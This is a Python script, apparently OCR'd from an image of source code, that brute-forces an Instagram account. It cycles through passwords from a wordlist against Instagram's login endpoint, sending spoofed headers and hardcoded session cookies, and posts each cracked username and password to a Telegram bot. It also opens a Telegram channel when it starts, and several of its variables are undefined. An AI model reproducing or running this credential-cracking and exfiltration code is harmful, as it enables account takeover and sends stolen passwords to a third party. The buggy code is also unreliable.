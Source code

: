 #---------------[ imports ]------------------#
import requests,time,pyfiglet,random,time,webbrowser
from user_agent import generate_user_agent
webbrowser.open('https://t.me/uiujq')

a2 = '\x1b[1;34m'  # أزرق
a3 = '\x1b[1;32m'  # أخضر
a4 = '\x1b[1;33m'  # أصفر
a5 = '\x1b[38;5;208m'  # برتقالي
a6 = '\x1b[38;5;5m'  # أرجواني
a7 = '\x1b[38;5;13m'  # وردي
a8 = '\x1b[1;30m'  # أسود
a9 = '\x1b[1;37m'  # أبيض
a10 = '\x1b[38;5;52m'  # بني
a11 = '\x1b[38;5;8m'  # رمادي
a12 = '\x1b[38;5;220m'  # ذهبي
a13 = '\x1b[38;5;7m'  # فضي
a14 = '\x1b[38;5;153m'  # أزرق فاتح
a15 = '\x1b[38;5;18m'  # أزرق داكن
a16 = '\x1b[38;5;48m'  # أخضر فاتح
a17 = '\x1b[38;5;22m'  # أخضر داكن
a18 = '\x1b[39;5;396m'  # أحمر فاتح
a19 = '\x1b[38;5;88m'  # أحمر داكن
a20 = '\x1b[38;5;226m'  # أصفر فاتح
a21 = '\x1b[38;5;136m'  # أصفر داكن
a22 = '\x1b[38;5;216m'  # برتقالي فات
a23 = '\x1b[38;5;166m'  # برتقالي داكن
a24 = '\x1b[38;5;234m'  # أرجواني فاتح
a25 = '\x1b[38;5;91m'  # أرجواني داكن
a26 = '\x1b[38;5;205m'  # وردي فاتح
a27 = '\x1b[38;5;161m'  # وردي داكن
a28 = '\x1b[38;5;236m'  # أسود فاتح
a29 = '\x1b[38;5;233m'  # أسود داكن
a30 = '\x1b[38;5;255m'  # أبيض فاتح
a31 = '\x1b[38;5;231m'  # أبيض داكن
a32 = '\x1b[38;5;180m'  # بني فاتح

print(f"""\033[32m⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⠿⠿⣿⣿⣿⣿⣿⢿⠿⠿⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣻⣉⡫⠒⢄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠔⣐⡫⡑⢶⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣷⡿⣟⣜⣶⣨⡰⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡴⣊⠵⣿⣲⢺⡽⣄⡔⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣻⡽⢶⣚⣵⢔⠬⠙⢶⣤⣄⡠⢀⣀⡀⡀⣀⡠⢄⠤⢦⠲⢦⣀⢀⣄⠀⡀⢀⠀⢀⣄⣤⡶⣛⡶⢞⣬⣿⡭⢟⣗⡶⣢⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣾⣟⡏⣭⣯⣭⣚⣐⢙⢻⣿⣷⡍⠀⣿⡱⢠⣟⢮⣺⡵⢎⡩⠃⡴⡟⢰⢌⢞⣫⡿⣋⢖⢭⣰⡩⡕⣫⠝⣾⣞⣿⡷⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣿⣞⡕⠶⢴⣾⣷⣽⣯⡇⠹⠿⠌⠀⣵⣅⠺⢇⠺⣅⠒⣺⠅⢀⣿⠌⠀⠈⠢⠏⢼⣽⣿⣽⣽⣽⣷⢞⡿⣶⣽⣿⠃⠄⠘⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢿⣿⣿⣾⣦⣼⣿⣿⡻⣉⢴⡂⠀⡄⢠⣩⡏⠰⣈⠖⣌⡷⠡⠐⢸⡇⠀⠀⠀⠀⠀⠽⠻⣛⡭⠼⢶⢭⣿⢾⣿⡿⡝⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢨⣟⢿⣿⣿⡏⡧⢦⣄⣙⢬⡷⠚⡈⢺⣿⣤⠓⠬⣽⢸⡿⠠⢴⡀⡜⡀⠀⠁⠁⢂⠐⢩⢠⣾⢻⣿⣿⣿⢿⢯⣽⠄⠠⠁⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⣯⣿⣿⣿⣿⣿⣿⣟⣧⢷⡤⢂⢥⢣⡿⣽⣶⣸⢿⣏⣾⣥⣿⡿⢓⠠⢂⠀⠁⠄⡈⢝⣷⢷⠟⡽⣽⢿⣅⠈⣟⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠀⢨⠟⠙⣿⣿⣾⣿⣷⣿⣟⢧⡒⢯⢾⣿⡿⠙⣿⡵⣾⣿⠏⣼⡟⠀⠐⢠⠂⠀⠀⠀⠀⠐⠙⠚⣩⣔⣿⣿⣿⠃⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⢀⠀⠀⠀⠀⠀⠀⠀⠀⠁⡸⡿⣿⢿⣟⣿⢋⡚⢣⠀⠀⢻⣿⡀⠸⣿⠴⣿⣿⠇⣿⡏⠉⢀⣂⢀⠈⠁⠀⠀⠀⠀⠀⢪⣵⣾⣛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠄⠀⠀⠀⠀⠀⠀⠀⠀⠠⡑⢂⠣⣟⣺⡥⡋⠈⠭⣁⢤⣔⣻⠇⢠⡟⣃⠸⣿⢑⣸⡆⠀⣲⡗⡁⠀⠘⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠑⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠠⠀⠀⠀⠀⠀⠀⠀⠀⢹⡜⣧⠍⠶⣨⢭⣰⣶⣷⣾⣷⣾⣿⣷⣫⣬⡈⠒⣊⠡⣬⣧⠂⣠⣶⣷⣾⣿⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠄⠀⠀⠀⠀⠀⠀⠀⠘⣿⣏⣾⣳⣷⡿⣿⣿⣿⣿⣿⣾⣿⡷⣿⣿⡀⡐⠀⠀⡸⠠⢠⣿⣿⣿⣯⣽⣿⣿⠷⣄⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣿⢿⣛⣏⣿⣿⣿⣿⣿⣿⣿⣿⠑⡿⠉⠁⠀⠀⠀⠀⢾⣿⣿⣿⣿⣿⣿⡿⠃⢈⢻⢥⡀⠀⠀⠀⠀⠀⠀⢀⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠠⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⣿⢯⣿⣾⣿⣿⣿⠿⠿⣛⣿⣇⡒⣤⢇⠜⠂⠀⢒⢠⣒⠙⠿⢿⣿⡿⠟⠀⣰⢺⠴⠘⠓⠢⠀⠀⠀⠀⢀⠀⠰⠄⠰⠐⠀⠀⠀⠀
⠀⠀⠀⠀⢀⠂⠀⠀⠀⠀⠀⠀⠀⠀⠘⣏⣭⣽⣿⣿⣿⡶⣭⢵⣾⣿⣿⣿⡿⡁⠀⠀⠛⢯⣽⣿⣆⡐⠀⠀⡉⢰⣿⢷⠃⠂⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠘⢁⠀⠀⠂⣀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣯⣿⣿⣯⡽⣿⣶⡯⠿⠉⠻⣿⣷⣵⢩⣓⣶⣯⠏⠀⢨⠅⣁⠻⣤⣜⠦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢰⠀⠐⢀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⣿⢿⣹⣽⣩⠁⠀⠉⠀⠀⠉⠻⢿⣿⡿⠉⠁⠀⠀⠀⠉⠁⠉⠉⠀⠀⢶⠆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠊⠀⠀⠀⠀⢀⠠⠀⠀
⠀⠀⠀⠀⠐⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡷⡯⣛⣤⣶⡦⣠⠐⡐⣼⣴⣫⣽⣿⣿⡵⡐⡢⠀⠀⠀⠀⠀⢤⣒⠶⠀⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠀⠁⠀
⠀⠀⠀⠀⠀⠠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣭⣷⣿⣷⣷⣧⣞⣵⢾⣐⠮⣟⠻⣛⠻⠟⡿⢿⠇⠀⡀⢠⢀⡐⢋⢍⠀⠠⠢⠄⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣸⣿⡿⣿⣿⣿⣿⣿⣾⣿⣯⣽⣢⣍⣠⠃⢂⣁⣢⣜⡞⣷⣆⣣⣰⣴⠲⣅⠀⠄⠤⠀⠀⠀⠀⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠀⠀⠁
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢤⣿⣟⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣽⣾⣿⣿⠿⡿⠃⠙⡷⡤⠧⠀⠀⠀⠀⠀⠀⠀⠀⠀⡠⢀⠀⡈⠰⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⡿⣽⣿⣏⡶⣯⡿⢿⣿⣿⣿⣿⣿⣿⢿⢟⡛⠿⡏⢙⠻⣁⡐⢴⡞⠯⠘⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠌⠘⢠⠉⠄⠀
⠀⠀⠀⢀⠄⠀⠀⠀⠀⠀⠀⠀⠀⣽⣻⠿⣟⣷⡿⣛⡿⣜⢣⡿⣻⢽⠿⣫⠏⠜⡺⠔⠐⠙⠡⠳⠘⠋⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⠠⠀⠈⠀⠀
⢰⠀⠀⠀⠈⠂⡄⠀⠀⡀⠀⠀⢸⣿⣽⣟⣯⡽⢿⡛⢶⣹⡾⣵⢧⠞⠔⠰⠀⠀⠀⡎⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢀⠠⠅⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⢱⡀⠀⠀⠀⠂⠀⠁⠀⠀⠀⠀⣽⣿⣿⣿⣿⣛⡲⢍⢶⢭⣿⡽⡵⢤⠀⠜⢁⠀⠈⡅⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠠⡀⢀⢐⠏⠀⠈⠀⡀⠀⠀⠀⠀⠂⠀⠐⠀⠀⠀⠀
⢬⡃⠀⠀⡀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣷⣯⠿⣟⣿⣿⣿⡶⢟⣵⣽⢞⠄⢀⠘⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣞⠿⣽⡽⠟⠞⠀⠀⡀⣤⡄⠆⠂⢀⠂⠄⠄⠀⠀⠀⠘⢀⠀
⢨⢧⠀⠀⠄⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⢻⠻⣌⠀⣁⠀⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⠏⢘⠃⠂⢑⢠⣄⡢⠉⠁⠀⠈⠁⠆⡄⠈⢠⠀⠀⠀⠈⠀⠀
⢎⡻⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⢻⣿⡭⣿⣿⣿⣿⣿⣿⣿⣮⢧⣛⢌⡽⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠠⣿⣿⣷⣼⣾⣟⠷⠬⢀⡀⠀⠀⠀⠀⠈⢌⠠⠁⠌⠘⢤⠀⠁⠀
⢞⡽⣟⠐⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⢟⠓⣻⣟⣿⣿⣿⣿⣿⣫⢎⣼⢂⡀⣷⢁⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⠟⡁⣍⠀⠀⠀⠀⠁⠀⠀⠀⠀⠄⠀⠀⠠⠀⠀⠈⡈⠨⠀
⢸⣣⢿⠀⠀⢀⡰⡂⠀⡀⠀⠀⠀⢙⣷⣫⣕⣟⣯⣿⣿⣿⣿⣯⢻⡛⣎⡥⣎⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣌⠢⡁⠃⠑⠀⠀⠀⠀⠀⠄⠀⠄⠀⠠⠠⡀⠀⠠⢌⠀⠄⠄
⢨⡳⣞⣯⠄⣫⠢⢎⢦⢨⠀⢁⠀⢠⡿⠟⠛⡻⡾⣿⣿⣿⣿⣎⢳⢽⢹⢸⢃⡞⠀⠀⠀⠀⠀⠀⠀⠀⢠⡟⠃⠐⠀⠀⠀⠀⠀⠀⠀⠀⡀⠀⠠⠀⡔⠜⢰⢣⢁⠌⡈⠜⡀
⣸⢳⣽⣻⣼⣾⣵⣾⣹⣶⣏⣜⡦⢩⣔⡲⢷⡴⡟⣯⣿⣿⣿⣽⣿⡞⡾⣞⣸⢬⣇⠃⠀⠀⠀⠀⠀⠀⣸⣇⡠⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡣⠕⠈⠐⢁⠀⠌⠞⠘⣲⢀⠀
⢾⣻⣾⣿⣾⣿⣿⣿⣿⣿⣿⣿⣯⡭⠿⢷⣷⢿⡳⢏⣿⣿⣿⣿⣻⡛⣯⢺⣼⢸⢷⢸⣰⠇⠀⠀⠀⢐⣻⣧⢧⢚⡼⡀⠀⠀⠀⠀⠀⠀⠀⠐⠐⡀⢣⠀⢀⡐⠠⡀⠂⠁⠁
⣿⣿⣿⣿⢿⣿⡾⣿⢿⣯⣿⣿⣯⠏⡹⠩⠂⠈⢰⠾⠶⣿⣿⣿⢿⣱⣿⢾⢻⢻⣼⠀⣏⠀⠀⠀⣣⡉⣿⣿⡄⡊⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡀⠨⡂⢑⠊⠊⡌⠆⠀
⣽⣿⣿⣿⣿⣾⣿⣽⢷⣟⣿⣿⣿⢿⡈⠎⣖⣮⠯⠂⠀⣼⣿⣿⣝⣿⣿⢿⢾⣿⣿⣷⣿⡇⢇⡇⣷⣷⣿⣧⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡈⠠⠐⠐⢐⢰⠁⠀
⢾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣦⣚⣤⣠⢵⣾⣿⣿⠿⣾⢣⣿⣎⢷⣻⣌⢼⣫⠇⡸⣣⡼⣿⣿⣟⣮⠐⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢂⠚⠎⠈⠈⡂⡐⠀
⣿⣿⣿⣿⣿⣯⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⣏⢧⡛⢬⣷⣿⣿⣿⣿⡾⣿⡟⣮⣷⣻⣷⢿⣿⡿⣿⡛⠆⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠊⠈⠸⠀⣱⠄⠃⠂
⢿⣿⣿⣿⣿⣿⣿⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣾⣭⡘⣏⠜⣫⢿⢿⣞⡿⢳⢿⣟⣿⢿⣋⠯⣗⠗⠃⠈⠀⠀⡠⠀⠀⠠⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠀⠣⠄⡙⠔⠀
⢾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣿⣿⣿⣿⣿⣿⣿⣷⣿⢾⣸⣄⣋⡘⢚⢧⢞⣭⢄⣚⣾⡇⣗⠇⠀⠀⠀⠈⠂⠀⠀⠀⠈⠀⠀⠀⠀⠀⠠⠀⠠⠀⠀⠀⠀⠜⠈⠀⠀
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣻⣿⣿⣿⣿⣿⣿⣟⣿⣻⣿⣾⣿⣾⣷⣾⡌⣰⢞⣺⣏⠅⢆⡉⡀⠡⡠⠀⠀⠁⠀⠀⠀⠄⠁⠀⠀⠀⠀⠀⠀⡀⠀⠠⠠⠀⢄⠈⠂⠀
⣼⢿⣿⠚⣿⣿⣽⢿⣿⢿⣿⣿⣿⣿⣷⣿⣟⣿⣿⣻⡾⣷⣻⣿⣿⣿⣿⣿⣿⣧⣿⣾⣿⣾⡇⣾⡿⡳⡍⠊⡰⡀⠀⠀⠀⠀⠀⠱⡀⠀⠀⠀⠀⠀⠁⠪⠀⢀⢠⠰⢀⠨⠀
⠈⠊⢞⠋⠌⠛⠈⡙⢎⠛⢿⡯⣿⢿⣿⣿⣿⣿⣷⠿⣙⣷⣻⣿⢏⣯⢿⣿⣿⣿⡛⠟⠹⠟⠁⠀⠁⠐⠘⠋⠀⠀⠀⠤⢀⢐⠀⠀⠀⠁⠀⠀⠀⠀⠀⠙⡠⢌⠁⠀⠀⠎⠀
⠀⠁⠀⠣⠀⠀⠀⠀⠀⡂⠀⠣⠇⢉⡋⠇⠇⠛⢿⣦⡽⠉⠁⠊⠁⠘⠉⠙⣿⡟⠀⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⡀⠀⠀⠀⠡⠢⠈⡀
⠀⠀⢀⠀⠀⠀⠀⠀⠀⡀⠀⠀⠐⠀⠁⠁⡀⠀⢀⠙⠿⠂⠘⠛⢂⠄⠂⠂⢝⢿⣆⠉⠢⠀⠀⠀⡀⠀⠀⢐⠀⠄⢀⠀⠀⠀⠀⠀⠂⠂⢠⠀⠀⠀⠀⢀⠂⠀⠀⡀⠘⠰⡀
⠀⠀⠀⠁⠀⠄⠄⠂⠀⠀⠀⠀⠀⠀⠀⠀⠤⠀⠠⠀⠰⠠⠀⠀⠀⠁⠀⢀⠀⠐⠙⠟⢷⢦⢀⠀⠀⠠⠐⢀⠨⠐⠘⠐⠁⠀⠀⠀⠘⠂⠁⠀⠀⠀⠀⠁⠀⢂⡀⢀⢋⠄⠂
⠀⠀⠀⠢⢁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀⠀⠀⠠⠀⠂⠊⠆⠂⠀⠀⠂⠀⠓⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀ """)

ID=input('\x1b[38;5;13m☬ ID ' + a4)
token=input('\x1b[1;32m☬ Token ' + a5)
r = requests.Session()

rfile = input('\x1b[38;5;180m File Name :  ' + a14)
rfile = open(file, 'r')

aa = input('\x1b[38;5;180m Target User ' + a32)
while True:
	user = us
	password = rfile.readline().split('\n')[0]

	url = 'https://www.instagram.com/api/v1/web/accounts/login/ajax/'
	
	headers = {
'accept': '*/*',
        'accept-encoding': 'gzip, deflate, br',
        'accept-language': 'en-US,en;q=0.9',
        'content-length': '336',
        'content-type': 'application/x-www-form-urlencoded',
        'cookie': 'mid=YPvYkQALAAH7ZlNgkXiBnW6y7AOy; ig_did=1C396C9B-7DC7-463E-A68B-FE991198F88A; ig_nrcb=1; shbid="944\0546317830362\0541658653745:01f7bf09c30c2bf6ae86e32af31b5991cd84a607e1547a0132f6b653c4b76ecc26abbc4e"; shbts="1627117745\0546317830362\0541658653745:01f716bcf5ca94c711aa8ee17e52cf927685a30c29c89e0310cfe9f86589901109fd5b1e"; rur="RVA\05448065200129\0541658659405:01f7d96b5f9c1cf2396b6d00cbc7281da4dc2bb4c75a035bf4917e188315d170aec60aa2"; csrftoken=mWehV8ELhUeOnA4aWc43a7PplDLL0jNL',
        'origin': 'https://www.instagram.com',
        'referer': 'https://www.instagram.com/',
        'sec-ch-ua': '"Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"',
        'sec-ch-ua-mobile': '?0',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': str(generate_user_agent()),
        'x-asbd-id': '437806',
        'x-csrftoken': 'mWehV8ELhUeOnA4aWc43a7PplDLL0jNL',
        'x-ig-app-id': '936619743392459',
        'x-ig-www-claim': 'hmac.AR2oFTCuitCzXvttHXW3DD1kZLwzL7oauskQL1Jp6ogO6FF6',
        'x-instagram-ajax': 'caee87137ae9',
        'x-requested-with': 'XMLHttpRequest'
    }
	
	
	data = (f'enc_password=#PWD_INSTAGRAM_BROWSER:0:{time}:{password}&optIntoOneTap=false&queryParams=%7B%7D&trustedDeviceRecords=%7B%7D&username={us}')
	
	response = requests.post(url,headers=headers,data=data)
	
	if 'userId' in response.text:
		print(F + 'user name -> '+user)
		print(F + 'password -> '+password)
		mdc = (f'''https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text= • Hιт Iιиѕтαgям υѕєя \=======================
		
- User ➪ {username} 
- PAS ➪ {password} 

=======================
• PY : @M02MM / @uiujq ''')
		i = requests.post(mdc)
	
	else:
		print(a19+'Error: '+password)
		
